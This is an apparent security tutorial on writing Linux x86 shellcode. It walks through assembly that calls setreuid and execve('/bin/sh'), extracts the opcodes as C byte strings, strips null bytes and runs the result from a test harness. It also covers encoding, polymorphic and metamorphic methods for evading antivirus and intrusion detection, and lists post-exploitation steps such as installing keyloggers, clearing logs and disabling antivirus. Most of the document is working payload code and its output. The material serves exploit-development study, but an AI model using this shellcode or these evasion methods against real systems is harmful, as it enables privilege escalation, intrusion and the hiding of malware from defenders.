



# A Shellcode: The Payload

## Shellcode

In order to execute our raw exploit codes directly in the stack or other parts of the memory, which deal with binary, we need assembly codes that represent a raw set of machine instructions of the target machines. A shellcode is an assembly language program which executes a shell, such as the '/bin/sh' for Unix/Linux shell, or the command.com shell on DOS and Microsoft Windows.  Bear in mind that in exploit, not just a normal shell but what we want is a root shell or Administrator privilege (note: In certain circumstances, in Windows there are account that having privileges higher than Administrator such as LocalSystem). Shellcode is used to spawn a (root) shell because it will give us the highest privilege. A shellcode may be used as an exploit payload, providing a hacker or attacker with command line access to a computer system. Shellcodes are typically injected into computer memory by exploiting stack or heap-based buffer overflows vulnerabilities, or format string attacks.  In a classic and normal exploits, shellcode execution can be triggered by overwriting a stack return address with the address of the injected shellcode. As a result, instead the subroutine returns to the caller, it returns to the shellcode, spawning a shell. Examples of shellcodes may be in the following forms:

As an assembly language - shellcode.s (shellcode.asm – for Windows):

```asm
#a very simple assembly (AT&T/Linux) program for spawning a shell
.section .data
.section .text
.globl _start

_start:
         xor %eax, %eax
         mov $70, %al           #setreuid is syscall 70
         xor %ebx, %ebx
         xor %ecx, %ecx
         int $0x80

         jmp ender

         starter:
         popl %ebx              #get the address of the string
         xor  %eax, %eax
         mov  %al, 0x07(%ebx)   #put a NULL where the N is in the string
         movl %ebx, 0x08(%ebx)  #put the address of the string
                                #to where the AAAA is
         movl %ebx, 0x0c(%ebx)  #put 4 null bytes into where the BBBB is
         mov $11, %al           #execve is syscall 11
         lea 0x08(%ebx), %ecx   #load the address of where the AAAA was
         lea 0x0c(%ebx), %edx   #load the address of the NULLS
         int $0x80              #call the kernel

ender:
         call starter
         .string "/bin/shNAAAABBBB"
```

As a C program - shellcode.c:

```c
#include <unistd.h>

int main(int argc, char*argv[ ])
{
	char *shell[2];

	shell[0] = "/bin/sh";
	shell[1] = NULL;
	execve(shell[0], shell, NULL);
	return 0;
}
```

Take note that the assembly code can be embedded in the C code using the __asm__ keyword and asm for the reverse (GCC, Microsoft). As a null terminated C string char array in C program:

```c
char shellcode[ ] = "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";
```

The shellcode declared as a C string of char type may be the most widely used in exploit codes and the typical format is shown below:

```c
char shcode[ ] = "\x90\x31\x89...";
char shcode[ ] = {0x90,0x90,0x31,...};
```

In a wider definition, shell code not just be used to spawn a shell, it also can be used to create a general payload.  Generally an exploit usually consists of two major components:

1. The exploitation technique.
2. The payload.

The objective of the exploitation part is to divert the execution path of the vulnerable program. We can achieve that through one of the following techniques:

1. Stack-based Buffer Overflow.
2. Heap-based Buffer Overflow.
3. Integer Overflow.
4. Format String.
5. Race condition.
6. Memory corruption, etc.

Once we control the execution path, we probably want it to execute our code. In this case, we need to include these codes or instruction sets in our exploit. Then, the part of code which allows us to execute arbitrary code is known as payload. The payload can virtually do everything a computer program can do with the appropriate permission and right of the vulnerable programs or services.

## Shellcode As A Payload

When the shell is spawned, it may be the simplest way that allows the attacker to explore the target system interactively. For example, it might give the attacker the ability to discover internal network, to further penetrate into other computers. A shell may also allow upload/download file/database, which is usually needed as proof of successful penetration test (pen-test). You also may easily install Trojan horse, key logger, sniffer, enterprise worm, WinVNC, etc. A shell is also useful to restart the vulnerable services keeping the service running. But more importantly, restarting the vulnerable service usually allows us to attack the service again. We also may clean up traces like log files and events with a shell. For Windows we may alter the registry to make it running for every system start up and stopping any antivirus programs.

You also can create a payload that loop and wait for commands from the attacker. The attacker could issue a command to the payload to create new connection, upload/download file or spawn another shell. There are also a few others payload strategies in which the payload will loop and wait for additional payload from the attacker such as in multistage exploits and the (Distributed) Denial of Service (DDOS/DOS). Regardless whether a payload is spawning a shell or loop to wait for instructions; it still needs to communicate with the attacker, locally or remotely. There are so many things that can be done.

## Shellcode Elements

This section will limit the discussion of the payload used to exploit stack based buffer overflows in binary, machine-readable program.  In this program, the shellcode must also be machine-readable.  The shellcode cannot contain any null bytes (0x00).  Null (‘\0’) is a string delimiter which instructs all C string functions (and other similar implementations), once found, will stop processing the string (a null-terminated string).  Depending on the platform used, not just the NULL byte, there are other delimiters such as linefeed (LF-0x0A), carriage return (CR-0x0D), backslash ( \ ) and NOP (No Operation) instruction that must also be considered when creating a workable shellcode.  In the best situations the shellcode may only contain alphanumeric characters.  Fortunately, there are several programs called **Encoder** that can be used to eliminate the NULL and other delimiter characters.

In order to be able to generate machine code that really works, you have to write the assembly code differently, but still have it serve its purpose. You need to do some tricks here and there to produce the same result as the optimal machine code.

Since it’s important that the shellcode should be as small as possible, the shellcode writer usually writes the code in the assembly language, then extracting the opcodes in the hexadecimal format and finally using the code in a program as string variables. Reliable standard libraries are not available for shellcodes; we usually have to use the kernel syscalls (system call) of the operating system directly. Shellcode also is OS and architecture dependent.  Workable shellcode also must consider bypassing the network system protection such as firewall and Intrusion Detection System (IDS).

## Creating A Shellcode: Making The Code Portable

Writing shellcode is slightly different from writing normal assembly code and the main one is the portability issue. Since we do not know which address we are at, it is not possible to access our data and even more impossible to hardcode a memory address directly in our program. We have to apply a trick to be able to make shellcode without having to reference the arguments in memory the conventional way, by giving their exact address on the memory page, which can only be done at compile time. Although this is a significant disadvantage, there are always workarounds for this issue. The easiest way is to use a string or data in the shellcode as shown in the following simple example.

```asm
.section .data
#only use register here...

.section .text

.globl _start

jmp      dummy

_start:
         #pop register, so we know the string location
         #Here we have assembly instructions which will use the string

dummy:
         call     _start

.string "Simple String"
```

What is occurring in this code is that we jmp to the label dummy and then from there call _start label. Once we are at the _start label, we can pop a register which will cause that register to contain the location of our string. CALL is used because it will automatically store the return address on the stack. As discussed before, the return address is the address of the next 4 bytes after the CALL instruction. By placing a variable right behind the call, we indirectly push its address on the stack without having to know it. This is a very useful trick when we do not know where is our code will be executed from. The code arrangement example using C can be illustrated as the following.

Example:

```c
void main(int argc, char **argv)
{
	char *name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;

	/*int execve(char *file, char *argv[], char *env[ ])*/
	execve(name[0], name, NULL);
	exit(0);
}
```

Registers usage:

1. **EAX**: 0xb – syscall number.
2. **EBX**: Address of program name (address of name[0]).
3. **ECX**: Address of null-terminated argument-vector, argv (address of name).
4. **EDX**: Address of null-terminated environment-vector, env/enp (NULL).

In this program, we need:

1. String /bin/sh somewhere in memory.
2. An Address of the string.
3. String /bin/sh followed by a NULL somewhere in memory.
4. An Address of address of string.
5. NULL somewhere in memory.

To determine **address of string** we can make use of instructions using relative addressing. We know that call instruction saves EIP on the stack and jumps to the function so:

1. Use jmp instruction at the beginning of shell code to CALL instruction.
2. call instruction right before /bin/sh string.
3. call jumps back to the first instruction after jump.
4. Now the address of /bin/sh should be on the stack.

<br />
Figure 1: A trick to determine the address of string.

If you are going to write code more complex than just spawning a simple shell, you can put more than one .string behind the CALL. Here, you know the size of those strings and can therefore calculate their relative locations once you know where the first string is located. With this knowledge, let’s try creating a simple shellcode that spawn a shell. The main points here are the similar process and steps that can be followed to create shellcodes. The following is a simple program example to spawn a shell in assembly (AT&T/Linux).

```asm
#assembly (AT&T/Linux) for spawning a shell
####### testshell2.s ############

.section .data
.section .text
.globl _start

_start:
         xor %eax, %eax            #clear register
         mov $70, %al              #setreuid is syscall 70
         xor %ebx, %ebx            #clear register, empty
         xor %ecx, %ecx            #clear register, empty
         int $0x80                 #interrupt 0x80

         jmp ender

starter:
         popl %ebx                 #get the address of the string, in %ebx
         xor  %eax, %eax           #clear register
         mov  %al, 0x07(%ebx)      #put a NULL where the N is in the string
         movl %ebx, 0x08(%ebx)     #put the address of the string to where the AAAA is
         movl %eax, 0x0c(%ebx)     #put 4 null bytes into where the BBBB is
         mov $11, %al              #execve is syscall 11
         lea 0x08(%ebx), %ecx      #load the address of where the AAAA was
         lea 0x0c(%ebx), %edx      #load the address of the NULLS
         int $0x80                 #call the kernel

ender:
         call starter
       .string "/bin/shNAAAABBBB" #16 bytes of string...
```

Basically, before the call starter the memory arrangement should be something like this (Little Endian):

<br />
Figure 2: Memory arrangement for our assembly code.

When the starter: portion is executed the memory arrangement should be something like this:

<br />
Where:<br />
a - Address of the string<br />
Figure 3: Memory arrangement for our shellcode.

Let compile and link the program and then disassemble it to get the equivalent hexadecimal opcodes.

```
[bodo@bakawali testbed8]$ as testshell2.s -o testshell2.o
[bodo@bakawali testbed8]$ ld testshell2.o -o testshell2
[bodo@bakawali testbed8]$ objdump -d testshell2

testshell2:     file format elf32-i386

Disassembly of section .text:

08048074 <_start>:
8048074:       31 c0      xor     %eax, %eax
8048076:       b0 46      mov     $0x46, %al
8048078:       31 db      xor     %ebx, %ebx
804807a:       31 c9      xor     %ecx, %ecx
804807c:       eb 16      jmp     8048094 <ender>

0804807e <starter>:
804807e:       5b         pop     %ebx
804807f:       31 c0      xor     %eax, %eax
8048081:       88 43 07   mov     %al, 0x7(%ebx)
8048084:       89 5b 08   mov     %ebx, 0x8(%ebx)
8048087:       89 43 0c   mov     %eax, 0xc(%ebx)
804808a:       b0 0b      mov     $0xb, %al
804808c:       8d 4b 08   lea     0x8(%ebx), %ecx
804808f:       8d 53 0c   lea     0xc(%ebx), %edx
8048092:       cd 80      int     $0x80

08048094 <ender>:
8048094:       e8 e5 ff ff ff    call   804807e <starter>
8048099:       2f                das
804809a:       62 69 6e          bound  %ebp, 0x6e(%ecx)
804809d:       2f                das
804809e:       73 68             jae    8048108 <ender+0x74>
80480a0:       4e                dec    %esi
80480a1:       41                inc    %ecx
80480a2:       41                inc    %ecx
80480a3:       41                inc    %ecx
80480a4:       41                inc    %ecx
80480a5:       42                inc    %edx
80480a6:       42                inc    %edx
80480a7:       42                inc    %edx
80480a8:       42                inc    %edx
```

Next, arrange the hexadecimal opcodes in char type array (C string).

```c
char code[ ] = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb"
               "\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89"
               "\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd"
               "\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f"
               "\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42";
```

Finally insert the shellcode into our test program, compile and run.

```c
/*test.c*/
#include <unistd.h>

char code[] = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb"
              "\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89"
              "\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd"
              "\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f"
              "\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42";

int main(int argc, char **argv)
{
    /*creating a function pointer*/
    int (*func)();
    func = (int (*)()) code;
    (int)(*func)();
}
```

```
[bodo@bakawali testbed8]$ gcc -g test.c -o test
[bodo@bakawali testbed8]$ execstack -s test
[bodo@bakawali testbed8]$ ./test
sh-3.00$
```

Well it works. Now, let try another example by using a simple C program. In this example we are using system call for exit(0), that is exit with no error and the program is shown below.

```c
/* exit.c */
#include <unistd.h>

int main()
{
    exit(0);
}
```

Do some verification.

```
[bodo@bakawali testbed7]$ gcc -g exit.c -o exit
[bodo@bakawali testbed7]$ execstack -s exit
[bodo@bakawali testbed7]$ ./exit
[bodo@bakawali testbed7]$ echo $?
0
[bodo@bakawali testbed7]$
```

Another verification.


```c
/* exit.c */
#include <unistd.h>

int main()
{
    exit(1);
}
```

```
[bodo@bakawali testbed7]$ gcc -g exit.c -o exit
[bodo@bakawali testbed7]$ execstack -s exit
[bodo@bakawali testbed7]$ ./exit
[bodo@bakawali testbed7]$ echo $?
1
```

The first thing we need to know is the [Linux system call](http://www.die.net/doc/linux/man/man2/syscalls.2.html) for [exit()](http://www.die.net/doc/linux/man/man2/exit.2.html) and that can be found in unistd.h. System call is the services provided by Linux kernel and just like API’s in Windows, you call them with different arguments. In C programming, it often uses functions defined in libc which provides a wrapper for many system calls. Linux manual page of section 2 provides more information about system calls. To get an overview, try using “man 2” at the command shell. It is also possible to invoke syscall() function directly. Each system call has a **function number** defined in <syscall.h> or <unistd.h>. Internally, system call is invoked by software interrupt **0x80** to transfer control to the kernel. System call table is defined in Linux kernel source file “arch/i386/kernel/entry.S ”.

For our example we need just one system call and that is exit() (terminate the current process and exit with exit code) and its system call number is 1 and the argument is 0, (0 means the program exit normally, non-zero means program exit with an error).  They will be stored in eax, ebx registers respectively.  With this knowledge, let create the program in assembly.

```asm
######testshell.s#######
#assembly code for exit() system call, AT&T/Linux

.section .data
.section .text

.globl _start

    jmp dummy

_start:

    popl %ebx            #gets the "X" address
    xor %eax, %eax       #clear the eax register
    mov %eax, 0x01(%ebx) #move NULL to the end of the "X"
    mov $1, %eax         #move 1 into %eax
    mov $0, %ebx         #move 0 into %ebx
    int $0x80            #interupt 0x80
dummy:
    call _start
    .string "X"
```

Then compile and link this assembly program and next, disassemble the executable.

```
[bodo@bakawali testbed7]$ as testshell.s -o testshell.o
[bodo@bakawali testbed7]$ ld testshell.o -o testshell
[bodo@bakawali testbed7]$ objdump -d testshell

testshell:     file format elf32-i386

Disassembly of section .text:

08048074 <_start-0x2>:
 8048074:       eb 12             jmp    8048088 <dummy>


08048076 <_start>:
 8048076:       5b                pop    %ebx
 8048077:       31 c0             xor    %eax, %eax
 8048079:       89 43 01          mov    %eax, 0x1(%ebx)
 804807c:       b8 01 00 00 00    mov    $0x1, %eax
 8048081:       bb 00 00 00 00    mov    $0x0, %ebx
 8048086:       cd 80             int    $0x80


08048088 <dummy>:
 8048088:       e8 e9 ff ff ff    call   8048076 <_start>
 804808d:       58                pop    %eax
 ...
```

Extract the shellcode; rearrange the hex in char string format.  And each set of hexadecimal value represents our assembly instruction.  Using hexadecimal values we can put any ASCII value in the range of 0-255 in one byte.

```
\xeb\x12\x5b\x31\xc0\x89\x43\x01\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd
\x80\xe8\xe9\xff\xff\xff\x58
```

### Eliminating the NULL Bytes

Unfortunately in our shellcode, there are NULL bytes and operand. Placing small values into larger registers is the most common error which produced NULL bytes in shellcode programming. In this example we move the 8 bits value $1 (a byte) into the 32-bit %eax register. This will cause our shellcode to produce three NULL bytes. It is better always use the smallest register when inserting or moving a value in shell coding.  For NULL bytes, we can easily remove them by taking an 8-bit register instead of 32 bits. So replace the %eax to %al, change the mov to movb.

```asm
######testshell.s#######
#assembly code for exit() system call, AT&T/Linux

.section .data
.section .text

.globl _start

    jmp dummy

_start:

    popl %ebx            #gets the "X" address
    xor %eax, %eax       #clear the eax register
    movb %al, 0x01(%ebx) #move NULL to the end of the "X"
    movb $1, %al         #move 1 into %eax
    mov $0, %ebx         #move 0 into %ebx
    int $0x80            #interupt 0x80
dummy:
    call _start
    .string "X"
```

Again, compile and disassemble it.

```
[bodo@bakawali testbed7]$ as testshell.s -o testshell.o
[bodo@bakawali testbed7]$ ld testshell.o -o testshell
[bodo@bakawali testbed7]$ objdump -d testshell


testshell:     file format elf32-i386

Disassembly of section .text:

08048074 <_start-0x2>:
 8048074:       eb 0f               jmp         8048085 <dummy>

08048076 <_start>:
 8048076:       5b                  pop         %ebx
 8048077:       31 c0               xor         %eax, %eax
 8048079:       88 43 01            mov         %al, 0x1(%ebx)
 804807c:       b0 01               mov         $0x1, %al
 804807e:       bb 00 00 00 00      mov         $0x0, %ebx
 8048083:       cd 80               int         $0x80

08048085 <dummy>:
 8048085:       e8 ec ff ff ff      call        8048076 <_start>
 804808a:       58                  pop         %eax
        ...
```

Rearrange the shellcode.

```
\xeb\x0f\x5b\x31\xc0\x88\x43\x01\xb0\x01\xbb\x00\x00\x00\x00\xcd\x80\xe8\xec\xff\xff\xff\x58
```

Well, we still have NULL bytes here. It is caused by the mov operand. When we want the ebx to represent a 0 value instead of NULL we can exclusive ORing the same register as shown below:

```asm
xor %ebx, %ebx
```

And the result will be empty %eax instead of NULL.  Keep in mind that 0 and NULL values mean differently. Let replace the `mov $0x0, %ebx` to `xor %ebx, %ebx`.

```
######testshell.s#######
#assembly code for exit() system call, AT&T/Linux

.section .data
.section .text

.globl _start

    jmp dummy

_start:

    popl %ebx            #gets the "X" address
    xor %eax, %eax       #clear the eax register
    movb %al, 0x01(%ebx) #move NULL to the end of the "X"
    movb $1, %al         #move 1 into %eax
    xor %ebx, %ebx       #move 0 into %ebx
    int $0x80            #interupt 0x80
dummy:
    call _start
    .string "X"
```

Recompile and re-link.  Disassemble the program.

```
[bodo@bakawali testbed7]$ ld testshell.o -o testshell
[bodo@bakawali testbed7]$ objdump -d testshell

testshell:     file format elf32-i386

Disassembly of section .text:

08048074 <_start-0x2>:
 8048074:       eb 0c               jmp         8048082 <dummy>

08048076 <_start>:
 8048076:       5b                  pop         %ebx
 8048077:       31 c0               xor         %eax, %eax
 8048079:       88 43 01            mov         %al, 0x1(%ebx)
 804807c:       b0 01               mov         $0x1, %al
 804807e:       31 db               xor         %ebx, %ebx
 8048080:       cd 80               int         $0x80

08048082 <dummy>:
 8048082:       e8 ef ff ff ff      call        8048076 <_start>
 8048087:       58                  pop         %eax
        ...
```

Rearrange the shellcode.

```
\xeb\x0c\x5b\x31\xc0\x88\x43\x01\xb0\x01\x31\xdb\xcd\x80\xe8\xef\xff\xff\xff\x58
```

Now we don’t have NULL byte anymore.  So let test our shellcode.

```c
/*test.c*/
#include <unistd.h>

char testshcode[ ]="\xeb\x0c\x5b\x31\xc0\x88\x43\x01\xb0\x01\x31"
                   "\xdb\xcd\x80\xe8\xef\xff\xff\xff\x58";

int main(int argc, char *argv[])
{
    /*function pointer*/
    int (*funct)();
    funct = (int(*)())testshcode;
    (int)(*funct)();
    return 0;
}
```

Compile and run the program.

```
[bodo@bakawali testbed7]$ gcc -g test.c -o test
[bodo@bakawali testbed7]$ execstack -s test
[bodo@bakawali testbed7]$ ./test
[bodo@bakawali testbed7]$ echo $?
0
```

Well, it works. For exit(1), change the following assembly code:

```
xor  %ebx, %ebx
```

To

```
movb $1, %bl
```

Recompile and re-link the assembly program. Disassemble it, only three bytes change. The following is the shellcode.

```
\xeb\x0c\x5b\x31\xc0\x88\x43\x01\xb0\x01\xb3\x01\xcd\x80\xe8\xef\xff\xff\xff\x58
```

Then replace the shellcode in the test.c program. Recompile and rerun the program.

```
[bodo@bakawali testbed7]$ gcc -g test.c -o test
[bodo@bakawali testbed7]$ execstack -s test
[bodo@bakawali testbed7]$ ./test
[bodo@bakawali testbed7]$ echo $?
1
```

Well, we have verified that our shellcode is functioning and you can see that a shellcode is a group of instructions which can be executed while another program is running.

Fortunately, there are sites that provide readily available shellcodes for various types of exploits and platforms. There are also programs that can be used to generate shellcodes that suit to our need. So don’t mess up yourself! Check out the links at the end of this Module.

## More Advanced Techniques

In the real situations, network system has many detection and filtering modules or devices such as firewall, anti-virus and IDS. Most of the basic shellcodes construct will fail when going through these systems. But the shellcodes development not static as well. In this section we will try to review some of the advanced techniques used in the development of the shellcodes in order to evade various normalization and signature based security systems that they encounter along the path to the target application and make the codes stealthy. These techniques include:

1. Utilizing readily available system resources.
2. Alphanumeric shellcode.
3. Encrypt the shellcode.
4. Polymorphic shellcodes.
5. Metamorphic shellcode.

### Utilizing System Resources

Exploits may fully utilize the resources provided by the target to fully mimic the normal application behavior. For example the exploit may use the targets protocol support and added features to disguise their payloads, including encoding, compression, and encryption. If the target supports any transport compression for example, the payload may be compressed in the stream and decompressed by the server before the vulnerable condition is triggered. The exploit examples include file format vulnerabilities and media-based protocols server vulnerabilities. Many protocol server implementations offer encoding schemes to support data types that require more than the real data. Simple authorization mechanisms that do not use encryption will most likely use simple encoding schemes such as **Unicode** (UTF) and **Base64**. If the target offers any form of encryption, the payload may also use that medium instead of the clear text transport medium, and will most likely sneak by the majority of IDS systems such as file format vulnerabilities. The most widely used may be the social engineering techniques that send an encrypted and compressed exploit as an email attachment, which the email itself looks perfectly legitimate.

### Alphanumeric

This method can be used to create exploit code using only **printable ASCII characters**. In general an alphanumeric code is a series of letters and numbers (hence the name) which are written in a form understandable and processable by a computer. For example, one such alphanumeric code is ASCII. More specifically, in an exploit code terminology alphanumeric code is machine code that is written so that it assembles into entirely readable ASCII-letters such as "a"-"z", "A"-"Z", "1"-"9", "#", "!", "@", and so on. This is possible to do with a very good understanding of the assembly language for the specific computer platform that the code is intended for. This code is used in shellcodes with the intent of fooling applications, such as Web forms, into accepting valid and legal code used for exploit.

### Encryption

In cryptography, encryption is the process of obscuring information to make it unreadable without certain knowledge of how to decrypt. While encryption has been used to protect communications for centuries, only organizations and individuals with an extraordinary need for secrecy have made use of it. In the mid-1970s, strong encryption emerged from the sole preserve of secretive government agencies into the public domain, and is now employed in protecting widely-used systems, such as Internet e-commerce, mobile telephone networks and bank Automatic Teller Machines data communication.  Nowadays a common use of the encryption protocols are **ssl** and **ssh**. Another consideration is protection against traffic analysis.

In exploit world the encryption provided by **encoder**, in simplest form it tries to eliminate NULLs and other user-defined characters out of shellcode. It most basic algorithm uses a simple XOR and includes a built-in decoder routine. It is usually possible to remove NULL characters in the first place by using the right register size as explained before but it is not always the case when we consider other characters available in standard character sets such as ASCII, EBCDIC and Unicode (and their variant). There may be a need to hide some characters, maybe to avoid signature based recognition or something like that. And finally, encoding the shellcode obscures all clear-text in the shellcode nicely.

### Polymorphic

In computer terminology, polymorphic code is code that mutates while keeping the original algorithm intact. It is self-modifying codes. Historically, polymorphic code was invented in 1992 by the Bulgarian cracker Dark Avenger (a pseudonym) as a means of avoiding pattern recognition from antivirus-software.

This technique is sometimes used by computer viruses, shellcodes and computer worms to hide their presence. Most anti virus-software and intrusion detection systems attempt to locate malicious code by searching through computer files and data packets sent over a computer network. If the security software finds patterns that correspond to known computer viruses, worms or exploit codes, it takes appropriate steps to neutralize the threat. Polymorphic algorithms make it difficult for such software to locate the offending code as it constantly **mutates**.

Encryption is the most commonly used method of achieving polymorphism in code. However, not all of the code can be encrypted as it would be completely unusable. A small portion of it is left unencrypted and used to jumpstart the encrypted software. Anti-virus software targets this small unencrypted portion of code.

Malicious programmers have sought to protect their polymorphic code from this strategy by rewriting the unencrypted decryption engine each time the virus or worm is propagated. Sophisticated pattern analysis is used by anti-virus software to find underlying patterns within the different mutations of the decryption engine in hopes of reliably detecting such malware. As an example, ADMutate program was released by Ktwo. [ADMutate](http://www.ktwo.ca/security.html) designed to defeat IDS signature checking by altering the appearance of buffer overflow exploits. This technique actually borrowed from virus writers. The mutation engine contains the following components:

1. NOP substituted is with operationally inert commands.  For example, Intel Architecture has more than 50 [NOP equivalent instructions](http://www.tenouk.com/Bufferoverflowc/NOPequivalentinstructions.txt).
2. Shell code is encoded by XORing with a randomly generated key.
3. Return address is modulated. Least significant byte altered to jump into different parts of NOPs.

And the decode Engine:

1. Need to decode the XOR’ed shellcode.
2. Engine is also polymorphic that is by varying the assembly instructions to accomplish the same results in different ways and out of order decoding to vary the signature even more.

### Metamorphic code

This is a more powerful and technically skillful level of polymorphism. In computer virus terms, metamorphic code is a code that can reprogram itself. Often, it does this by translating its own code into a temporary pseudo-code, and then back to normal code again. This is used by some viruses when they are about to infect new files, and the result is that their "children" or "clone" will never look like them selves. The computer viruses that use this technique do this in order to avoid the pattern recognition of the anti virus-software where the actual algorithm does not change but everything else might.

Metamorphic code is more effective than polymorphic code. This is because most anti virus-software will try to search for known virus-code even during the execution of the code. Metamorphic code can also mean that a virus is capable of infecting executables from two or more different operating systems (such as Windows and Linux) or even different computer architectures. Often, the virus does this by carrying several viruses with itself, so it is really a matter of several viruses that has been 'combined' together into a "supervirus".  Similar to the polymorphic, metamorphic also use encoder and decoder. Worms and virii have used morphing engines for decades to evade signature based Anti Virus systems. This same techniques used in exploit codes that can be used to evade other simple signature-based security systems, such as Intrusion Detection Systems.

## Further reading and digging

- [metasploit.com][1] : Contains x86 and non-x86 shellcode samples and an online interface for automatic shellcode generation and encoding. Quite comprehensive information.
- [shellcode.org][2] : Contains x86 and non-x86 shellcode samples.
- [shellcode.com.ar][3] : An introduction to shellcode development. Browse the domain for more information including polymorphic shellcodes.
- [shellcode.com.ar][4] : Shellcode collection.
- [packetstorm.linuxsecurity.com][5] : Another shellcode collection and tools.
- [l0t3k.org][6] : Shellcode documentations link resources.
- [vividmachine.com][7] : Linux and Windows shellcodes example.
- [www.infosecwriters.com][8] : A Linux/xBSD shellcode development.
- [www.hick.org][9] : Windows shellcode, from basic to advanced – pdf document.
- [www.orkspace.net][10] : Shellcode library and shellcode generator.
- Phrack : [The classic buffer overflow by Aleph One's][11].
- Phrack : [Writing ia32 alphanumeric shellcodes][12] : by rix.
- Phrack : [IA64 Shellcode][13].
- Phrack : [Building IA32 'Unicode-Proof' Shellcodes][14] : by obscou.
- Tenouk's favorite [security portal][15].

[1]: http://www.metasploit.com/
[2]: http://www.shellcode.org/
[3]: http://www.shellcode.com.ar/docz/bof/Writing_shellcode.html
[4]: http://www.shellcode.com.ar/en/shellcodes.html
[5]: http://packetstorm.linuxsecurity.com/shellcode/
[6]: http://www.l0t3k.org/programming/docs/shellcode/
[7]: http://www.vividmachines.com/shellcode/shellcode.html
[8]: http://www.infosecwriters.com/hhworld/shellcode.txt
[9]: http://www.hick.org/code/skape/papers/win32-shellcode.pdf
[10]: http://www.orkspace.net/software/libShellCode/index.php
[11]: http://www.phrack.org/issues.html?issue=49&id=14#article
[12]: http://www.phrack.org/issues.html?issue=57&id=15#article
[13]: http://www.phrack.org/issues.html?issue=57&id=5#article
[14]: http://www.phrack.org/issues.html?issue=61&id=11#article
[15]: http://www.infosyssec.com/
